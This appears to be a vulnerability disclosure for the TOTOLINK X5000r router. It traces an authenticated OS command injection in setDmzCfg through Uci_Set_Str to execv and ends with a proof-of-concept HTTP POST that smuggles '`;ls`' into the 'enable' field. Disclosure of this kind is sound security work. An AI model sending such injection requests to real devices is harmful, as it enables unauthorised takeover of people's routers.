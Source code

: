# totolink X5000r
## Firmware version
totolink X5000r devices through v9.1.0cu.2350_b20230313
## description
In totolink X5000r v9.1.0cu.2350_b20230313, the file /cgi-bin/cstecgi.cgi contains a OS command injection vulnerability in `setDmzCfg`. Authenicated Attackers can send malicious packet to execute arbitary commands.
## detail
In function `setDmzCfg` (at 0x4111CC), binary /cgi-bin/cstecgi.cgi. The parameter `enable` and `port` are passed to 'Uci_set_str' without any check.
![setdmzcfg](image-2.png)
Uci_Set_Str passes the parameter `enable` and `port` as the fourth argument, which is in libcscommon.so. It can be observed that Uci_Set_Str calls snprintf to format our param_4 into the string uci -c %s set .... and passes the string to the CsteSystem function,which will eventually be called by execv.
![uci_set_str](image.png)
![uci_set_str2](image-1.png)

## POC
```txt
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.1.1
Content-Length: 119
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.1.1
Referer: http://192.168.1.1/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl": "setDmzCfg", "enable": "`;ls`", "ip": "aaaaa"}
```

![alt text](image-3.png)